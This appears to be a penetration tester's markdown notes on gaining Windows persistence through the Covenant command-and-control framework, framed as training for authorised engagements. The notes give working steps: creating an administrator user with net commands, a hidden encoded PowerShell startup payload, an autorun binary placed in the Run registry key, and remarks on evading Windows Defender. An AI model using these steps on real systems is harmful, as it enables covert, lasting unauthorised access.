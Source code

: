 # Persistence

Here we assume we have a shell with administrative privileges on the target

## Create a new user

### Covenant

- Select Interact in your grunt
- Use `shellcmd net users username password /add` (Note: for a real context engagement we need to make a safe password and a recognizable username such as the name of the company we work for)
- we can check that the user has been successfully added using `shell net users`
- Now we need to add our user to the administrators group using `shell net localgroup administrators username /add`

## Startup Persistence

### Covenant

- This method will ibject a payload in the startup tasks
- In your grunt go to the tab Task in the GruntTask list choose `PersistStartup`
- You should see this in the Payload input: `powershell -Sta -Nop -Window Hidden -EncodedCommand <blah>` replace the blah with a powershell encoded launcher and click on Task
- If we restart the target machine and login again there we should get our shell back

***Note: Windows Defender is really efficient in detecting this so you might have to try different things for AV evasion***

## Autorun Persistence

### Covenant

- Go to launcher, select `Binary Launcher` Generate one and Download it
- Go back to your high integrity grunt, go to the task tab
- In the GruntTack Select `PersistAutorun`, choose a directory in where to upload the binary
- Go to the interact tab type Upload put the Directory in the file path and select the bin file you download previously
- You can check if the bin was successfuly added to the Registry using this cmd: `GetRegistryKey HCKU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`
- Once you restart you should have a shell back

***Note: Windows Defender is really efficient in detecting this so you might have to try different things for AV evasion***


## Resources

{% embed url="https://academy.tcm-sec.com/p/movement-pivoting-and-persistence-for-pentesters-and-ethical-hackers" %} TCM security Academy -  Movement pivoting and persistence for pentesters and ethical hacker {% endembed %}
